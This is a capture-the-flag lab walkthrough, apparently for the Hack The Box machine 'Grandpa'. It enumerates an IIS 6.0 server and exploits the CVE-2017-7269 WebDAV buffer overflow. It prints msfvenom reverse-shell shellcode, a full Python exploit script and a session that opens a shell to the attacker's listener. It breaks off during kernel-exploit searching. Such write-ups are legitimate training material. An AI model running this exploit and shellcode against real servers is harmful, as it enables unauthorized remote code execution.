


# Enumeration

## Run Nmap Scan

```bash
nmap -p- -T4 10.129.95.233

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-22 05:19 BST
Nmap scan report for 10.129.95.233
Host is up (0.0027s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 503.55 seconds
"
```

```bash
nmap -p 80 -sC -sV 10.129.95.233

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-22 05:28 BST
Nmap scan report for 10.129.95.233
Host is up (0.0054s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Date: Sun, 22 Oct 2023 04:28:44 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unknown
|_  Server Type: Microsoft-IIS/6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.97 seconds
"
```

## **View Website**



## Directory Bruteforcing (Run Gobuster)

```bash
gobuster dir -u http://10.129.95.233/ -w /usr/share/wordlists/dirb/common.txt -z

"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.95.233/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/10/22 05:30:05 Starting gobuster in directory enumeration mode
===============================================================
/_private             (Status: 403) [Size: 1529]
/_vti_cnf             (Status: 403) [Size: 1529]
/_vti_log             (Status: 403) [Size: 1529]
/_vti_pvt             (Status: 403) [Size: 1529]
/_vti_bin             (Status: 301) [Size: 157] [--> http://10.129.95.233/%5Fvti%5Fbin/]
/_vti_txt             (Status: 403) [Size: 1529]                                        
/_vti_bin/_vti_aut/author.dll (Status: 200) [Size: 195]                                 
/_vti_bin/_vti_adm/admin.dll (Status: 200) [Size: 195]                                  
/_vti_bin/shtml.dll   (Status: 200) [Size: 96]                                          
/aspnet_client        (Status: 403) [Size: 218]                                         
/Images               (Status: 301) [Size: 151] [--> http://10.129.95.233/Images/]      
/images               (Status: 301) [Size: 151] [--> http://10.129.95.233/images/]      
                                                                                        
===============================================================
2023/10/22 05:30:07 Finished
===============================================================
"
```

When you find the route `aspnet_client` , we should always check if the server is vulnerable to short filename enumeration and WebDAV File Upload vulnerability.

## IIS Enumeration

### Short filename enumeration using Shortscan

Install the file

[https://github.com/bitquark/shortscan](https://github.com/bitquark/shortscan)

Use the latest go to install the file

```bash
go install github.com/bitquark/shortscan/cmd/shortscan@latest
export PATH=${PATH}:`go env GOPATH`/bin
```

Run shortscan

```bash
shortscan http://10.129.95.233

"
Shortscan v0.6 · an IIS short filename enumeration tool by bitquark
Target: http://10.129.95.233/
Running: Microsoft-IIS/6.0 (ASP.NET v1.1.4322)
Vulnerable: Yes!
--------------------------------------------------------------------------------
_VTI_S~1             _VTI_S?    
ASPNET~1             ASPNET?             ASPNET_CLIENT
POSTIN~1.HTM         POSTIN?.HTM?        POSTINFO.HTML
_VTI_I~1.HTM         _VTI_I?.HTM?        _VTI_INF.HTML
--------------------------------------------------------------------------------
Finished! Requests: 373; Retries: 0; Sent 70916 bytes; Received 208635 bytes
"
```



There’s not much additional information we found using iis short filename enumeration

### Testing WebDAV File Upload Vulnerability (Failed)

```bash
davtest -url http://10.129.95.233/

"
********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://10.129.95.233
********************************************************
NOTE	Random string for this session: nb3AtW
********************************************************
 Creating directory
MKCOL		FAIL
********************************************************
 Sending test files
PUT	cfm	FAIL
PUT	jsp	FAIL
PUT	cgi	FAIL
PUT	txt	FAIL
PUT	aspx	FAIL
PUT	pl	FAIL
PUT	asp	FAIL
PUT	php	FAIL
PUT	jhtml	FAIL
PUT	shtml	FAIL
PUT	html	FAIL

********************************************************
/usr/bin/davtest Summary:
"
```

File Upload vulnerability has been patched here.

# Exploitation

## Checking IIS Exploit

```bash
searchsploit iis 6.0

"
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Microsoft IIS 4.0/5.0/6.0 - Internal IP Addre | windows/remote/21057.txt
Microsoft IIS 5.0/6.0 FTP Server (Windows 200 | windows/remote/9541.pl
Microsoft IIS 5.0/6.0 FTP Server - Stack Exha | windows/dos/9587.txt
Microsoft IIS 6.0 - '/AUX / '.aspx' Remote De | windows/dos/3965.pl
Microsoft IIS 6.0 - ASP Stack Overflow Stack  | windows/dos/15167.txt
Microsoft IIS 6.0 - WebDAV 'ScStoragePathFrom | windows/remote/41738.py
Microsoft IIS 6.0 - WebDAV Remote Authenticat | windows/remote/8704.txt
Microsoft IIS 6.0 - WebDAV Remote Authenticat | windows/remote/8754.patch
Microsoft IIS 6.0 - WebDAV Remote Authenticat | windows/remote/8765.php
Microsoft IIS 6.0 - WebDAV Remote Authenticat | windows/remote/8806.pl
Microsoft IIS 6.0/7.5 (+ PHP) - Multiple Vuln | windows/remote/19033.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
"
```

We found some interesting exploit related to IIS 6.0. Using RCE, we can potentially gain the shell.

[Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow](https://www.exploit-db.com/exploits/41738)

```bash
searchsploit -x 41738

"
  Exploit: Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow
      URL: https://www.exploit-db.com/exploits/41738
     Path: /usr/share/exploitdb/exploits/windows/remote/41738.py
    Codes: CVE-2017-7269
 Verified: False
File Type: ASCII text, with very long lines
"
```

Generating the shell code to gain the reverse shell.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.46 LPORT=4444 -f python

`
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of python file: 1604 bytes
buf =  b""
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64"
buf += b"\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
buf += b"\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c"
buf += b"\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52"
buf += b"\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
buf += b"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49"
buf += b"\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
buf += b"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75"
buf += b"\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b"
buf += b"\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
buf += b"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
buf += b"\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77"
buf += b"\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
buf += b"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b"
buf += b"\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
buf += b"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a"
buf += b"\x0e\x2e\x68\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56"
buf += b"\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0c"
buf += b"\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2\x56\xff\xd5"
buf += b"\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
buf += b"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01"
buf += b"\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56"
buf += b"\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f"
buf += b"\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30\x68\x08"
buf += b"\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
buf += b"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
buf += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"
`
```

Copy the reverse shell code and swap it with the `buf` variable

```python
'''
Description:Buffer overflow in the ScStoragePathFromUrl function in the WebDAV service in Internet Information Services (IIS) 6.0 in Microsoft Windows Server 2003 R2 allows remote attackers to execute arbitrary code via a long header beginning with "If: <http://" in a PROPFIND request, as exploited in the wild in July or August 2016.

Additional Information: the ScStoragePathFromUrl function is called twice
Vulnerability Type: Buffer overflow
Vendor of Product: Microsoft
Affected Product Code Base: Windows Server 2003 R2
Affected Component: ScStoragePathFromUrl
Attack Type: Remote
Impact Code execution: true
Attack Vectors: crafted PROPFIND data

Has vendor confirmed or acknowledged the vulnerability?:true

Discoverer:Zhiniang Peng and Chen Wu.
Information Security Lab & School of Computer Science & Engineering, South China University of Technology Guangzhou, China
'''

#------------Our payload set up a ROP chain by using the overflow 3 times. It will launch a calc.exe which shows the bug is really dangerous.
#written by Zhiniang Peng and Chen Wu. Information Security Lab & School of Computer Science & Engineering, South China University of Technology Guangzhou, China
#-----------Email: edwardz@foxmail.com

import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(('10.129.95.233',80))

pay='PROPFIND / HTTP/1.1\r\nHost: localhost\r\nContent-Length: 0\r\n'
pay+='If: <http://localhost/aaaaaaa'
pay+='\xe6\xbd\xa8\xe7\xa1\xa3\xe7\x9d\xa1\xe7\x84\xb3\xe6\xa4\xb6\xe4\x9d\xb2\xe7\xa8\xb9\xe4\xad\xb7\xe4\xbd\xb0\xe7\x95\x93\xe7\xa9\x8f\xe4\xa1\xa8\xe5\x99\xa3\xe6\xb5\x94\xe6\xa1\x85\xe3\xa5\x93\xe5\x81\xac\xe5\x95\xa7\xe6\x9d\xa3\xe3\x8d\xa4\xe4\x98\xb0\xe7\xa1\x85\xe6\xa5\x92\xe5\x90\xb1\xe4\xb1\x98\xe6\xa9\x91\xe7\x89\x81\xe4\x88\xb1\xe7\x80\xb5\xe5\xa1\x90\xe3\x99\xa4\xe6\xb1\x87\xe3\x94\xb9\xe5\x91\xaa\xe5\x80\xb4\xe5\x91\x83\xe7\x9d\x92\xe5\x81\xa1\xe3\x88\xb2\xe6\xb5\x8b\xe6\xb0\xb4\xe3\x89\x87\xe6\x89\x81\xe3\x9d\x8d\xe5\x85\xa1\xe5\xa1\xa2\xe4\x9d\xb3\xe5\x89\x90\xe3\x99\xb0\xe7\x95\x84\xe6\xa1\xaa\xe3\x8d\xb4\xe4\xb9\x8a\xe7\xa1\xab\xe4\xa5\xb6\xe4\xb9\xb3\xe4\xb1\xaa\xe5\x9d\xba\xe6\xbd\xb1\xe5\xa1\x8a\xe3\x88\xb0\xe3\x9d\xae\xe4\xad\x89\xe5\x89\x8d\xe4\xa1\xa3\xe6\xbd\x8c\xe7\x95\x96\xe7\x95\xb5\xe6\x99\xaf\xe7\x99\xa8\xe4\x91\x8d\xe5\x81\xb0\xe7\xa8\xb6\xe6\x89\x8b\xe6\x95\x97\xe7\x95\x90\xe6\xa9\xb2\xe7\xa9\xab\xe7\x9d\xa2\xe7\x99\x98\xe6\x89\x88\xe6\x94\xb1\xe3\x81\x94\xe6\xb1\xb9\xe5\x81\x8a\xe5\x91\xa2\xe5\x80\xb3\xe3\x95\xb7\xe6\xa9\xb7\xe4\x85\x84\xe3\x8c\xb4\xe6\x91\xb6\xe4\xb5\x86\xe5\x99\x94\xe4\x9d\xac\xe6\x95\x83\xe7\x98\xb2\xe7\x89\xb8\xe5\x9d\xa9\xe4\x8c\xb8\xe6\x89\xb2\xe5\xa8\xb0\xe5\xa4\xb8\xe5\x91\x88\xc8\x82\xc8\x82\xe1\x8b\x80\xe6\xa0\x83\xe6\xb1\x84\xe5\x89\x96\xe4\xac\xb7\xe6\xb1\xad\xe4\xbd\x98\xe5\xa1\x9a\xe7\xa5\x90\xe4\xa5\xaa\xe5\xa1\x8f\xe4\xa9\x92\xe4\x85\x90\xe6\x99\x8d\xe1\x8f\x80\xe6\xa0\x83\xe4\xa0\xb4\xe6\x94\xb1\xe6\xbd\x83\xe6\xb9\xa6\xe7\x91\x81\xe4\x8d\xac\xe1\x8f\x80\xe6\xa0\x83\xe5\x8d\x83\xe6\xa9\x81\xe7\x81\x92\xe3\x8c\xb0\xe5\xa1\xa6\xe4\x89\x8c\xe7\x81\x8b\xe6\x8d\x86\xe5\x85\xb3\xe7\xa5\x81\xe7\xa9\x90\xe4\xa9\xac'
pay+='>'
pay+=' (Not <locktoken:write1>) <http://localhost/bbbbbbb'
pay+='\xe7\xa5\x88\xe6\x85\xb5\xe4\xbd\x83\xe6\xbd\xa7\xe6\xad\xaf\xe4\xa1\x85\xe3\x99\x86\xe6\x9d\xb5\xe4\x90\xb3\xe3\xa1\xb1\xe5\x9d\xa5\xe5\xa9\xa2\xe5\x90\xb5\xe5\x99\xa1\xe6\xa5\x92\xe6\xa9\x93\xe5\x85\x97\xe3\xa1\x8e\xe5\xa5\x88\xe6\x8d\x95\xe4\xa5\xb1\xe4\x8d\xa4\xe6\x91\xb2\xe3\x91\xa8\xe4\x9d\x98\xe7\x85\xb9\xe3\x8d\xab\xe6\xad\x95\xe6\xb5\x88\xe5\x81\x8f\xe7\xa9\x86\xe3\x91\xb1\xe6\xbd\x94\xe7\x91\x83\xe5\xa5\x96\xe6\xbd\xaf\xe7\x8d\x81\xe3\x91\x97\xe6\x85\xa8\xe7\xa9\xb2\xe3\x9d\x85\xe4\xb5\x89\xe5\x9d\x8e\xe5\x91\x88\xe4\xb0\xb8\xe3\x99\xba\xe3\x95\xb2\xe6\x89\xa6\xe6\xb9\x83\xe4\xa1\xad\xe3\x95\x88\xe6\x85\xb7\xe4\xb5\x9a\xe6\x85\xb4\xe4\x84\xb3\xe4\x8d\xa5\xe5\x89\xb2\xe6\xb5\xa9\xe3\x99\xb1\xe4\xb9\xa4\xe6\xb8\xb9\xe6\x8d\x93\xe6\xad\xa4\xe5\x85\x86\xe4\xbc\xb0\xe7\xa1\xaf\xe7\x89\x93\xe6\x9d\x90\xe4\x95\x93\xe7\xa9\xa3\xe7\x84\xb9\xe4\xbd\x93\xe4\x91\x96\xe6\xbc\xb6\xe7\x8d\xb9\xe6\xa1\xb7\xe7\xa9\x96\xe6\x85\x8a\xe3\xa5\x85\xe3\x98\xb9\xe6\xb0\xb9\xe4\x94\xb1\xe3\x91\xb2\xe5\x8d\xa5\xe5\xa1\x8a\xe4\x91\x8e\xe7\xa9\x84\xe6\xb0\xb5\xe5\xa9\x96\xe6\x89\x81\xe6\xb9\xb2\xe6\x98\xb1\xe5\xa5\x99\xe5\x90\xb3\xe3\x85\x82\xe5\xa1\xa5\xe5\xa5\x81\xe7\x85\x90\xe3\x80\xb6\xe5\x9d\xb7\xe4\x91\x97\xe5\x8d\xa1\xe1\x8f\x80\xe6\xa0\x83\xe6\xb9\x8f\xe6\xa0\x80\xe6\xb9\x8f\xe6\xa0\x80\xe4\x89\x87\xe7\x99\xaa\xe1\x8f\x80\xe6\xa0\x83\xe4\x89\x97\xe4\xbd\xb4\xe5\xa5\x87\xe5\x88\xb4\xe4\xad\xa6\xe4\xad\x82\xe7\x91\xa4\xe7\xa1\xaf\xe6\x82\x82\xe6\xa0\x81\xe5\x84\xb5\xe7\x89\xba\xe7\x91\xba\xe4\xb5\x87\xe4\x91\x99\xe5\x9d\x97\xeb\x84\x93\xe6\xa0\x80\xe3\x85\xb6\xe6\xb9\xaf\xe2\x93\xa3\xe6\xa0\x81\xe1\x91\xa0\xe6\xa0\x83\xcc\x80\xe7\xbf\xbe\xef\xbf\xbf\xef\xbf\xbf\xe1\x8f\x80\xe6\xa0\x83\xd1\xae\xe6\xa0\x83\xe7\x85\xae\xe7\x91\xb0\xe1\x90\xb4\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81\xe9\x8e\x91\xe6\xa0\x80\xe3\xa4\xb1\xe6\x99\xae\xe4\xa5\x95\xe3\x81\x92\xe5\x91\xab\xe7\x99\xab\xe7\x89\x8a\xe7\xa5\xa1\xe1\x90\x9c\xe6\xa0\x83\xe6\xb8\x85\xe6\xa0\x80\xe7\x9c\xb2\xe7\xa5\xa8\xe4\xb5\xa9\xe3\x99\xac\xe4\x91\xa8\xe4\xb5\xb0\xe8\x89\x86\xe6\xa0\x80\xe4\xa1\xb7\xe3\x89\x93\xe1\xb6\xaa\xe6\xa0\x82\xe6\xbd\xaa\xe4\x8c\xb5\xe1\x8f\xb8\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81'

buf =  b""
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64"
buf += b"\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
buf += b"\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c"
buf += b"\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52"
buf += b"\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
buf += b"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49"
buf += b"\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
buf += b"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75"
buf += b"\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b"
buf += b"\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
buf += b"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
buf += b"\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77"
buf += b"\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
buf += b"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b"
buf += b"\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
buf += b"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a"
buf += b"\x0e\x2e\x68\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56"
buf += b"\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0c"
buf += b"\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2\x56\xff\xd5"
buf += b"\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
buf += b"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01"
buf += b"\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56"
buf += b"\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f"
buf += b"\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30\x68\x08"
buf += b"\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
buf += b"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
buf += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"

pay+=buf
pay+='>\r\n\r\n'
print pay

sock.send(pay)
data = sock.recv(80960)

print data
sock.close
```

Unfortuately the exploit will not work, I found the same exploit but from different user

[https://github.com/crypticdante/CVE-2017-7269.git](https://github.com/crypticdante/CVE-2017-7269.git)

### Listen to Reverse Shell and Exploit

```bash
python2.7 ii6_reverse_shell.py <attacker ip> 80 10.10.14.46 4444

"
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖漶獹桷穖慊㥅㘹氹䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃̀翾￿￿Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>
"
```

```bash
nc -lvnp 4444

"
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.95.233.
Ncat: Connection from 10.129.95.233:1046.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>
"
```

# Privilege Escalation

## Using Kernel Exploit

### Getting Systeminfo and Saving the file as systeminfo.txt

```powershell
systeminfo

"
Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 6 Hours, 33 Minutes, 5 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 762 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,302 MB
Page File: In Use:         168 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
"
```

### Install and execute wes-ng

```powershell
pip3 install wesng
wes --update # Update the exploit
wes systeminfo.txt -o out.csv # Input the systeminfo file and output the available exploit in csv file
```

### Search for Privilege Escalation Kernel Exploit

```bash
cat out.csv | grep 'Privilege' | grep 'exploit-db'

'
"20150714","CVE-2015-2365","3070102","Vulnerabilities in Windows Kernel-Mode Driver Could Allow Elevation of Privilege","Microsoft Windows Server 2003 x64 Edition Service Pack 2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/38267/"
"20150714","CVE-2015-2365","3070102","Vulnerabilities in Windows Kernel-Mode Driver Could Allow Elevation of Privilege","Microsoft Windows Server 2003 for Itanium-based Systems Service Pack 2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/38267/"
"20150714","CVE-2015-2370","3067505","Vulnerability in Windows Remote Procedure Call Could Allow Elevation of Privilege","Microsoft Windows Server 2003 x64 Edition Service Pack 2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/37768/"
"20150714","CVE-2015-2370","3067505","Vulnerability in Windows Remote Procedure Call Could Allow Elevation of Privilege","Microsoft Windows Server 2003 for Itanium-based Systems Service Pack 2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/37768/"
"20141111","CVE-2014-4076","2989935","Vulnerability in TCP/IP Could Allow Elevation of Privilege","Microsoft Windows Server 2003 for Itanium-based Systems Service Pack 2","","Important","Elevation of Privilege","http://www.exploit-db.com/exploits/35936, https://www.exploit-db.com/exploits/37755/"
"20141111","CVE-2014-4076","2989935","Vulnerability in TCP/IP Could Allow Elevation of Privilege","Microsoft Windows Server 2003 x64 Edition Service Pack 2","","Important","Elevation of Privilege","http://www.exploit-db.com/exploits/35936, https://www.exploit-db.com/exploits/37755/"
"20110809","CVE-2011-1974","2566454","Vulnerability in Remote Access Service NDISTAPI Driver Could Allow Elevation of Privilege","Microsoft Windows Server 2003 x64 Edition Service Pack 2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40627/"
"20110809","CVE-2011-1974","2566454","Vulnerability in Remote Access Service NDISTAPI Driver Could Allow Elevation of Privilege","Microsoft Windows Server 2003 for Itanium-based Systems Service Pack 2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40627/"
"20110208","CVE-2010-4398","2393802","Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege","Microsoft Windows Server 2003 x64 Edition Service Pack 2","","Important","Elevation of Privilege","http://www.exploit-db.com/bypassing-uac-with-user-privilege-under-windows-vista7-mirror/, http://www.exploit-db.com/exploits/15609/"
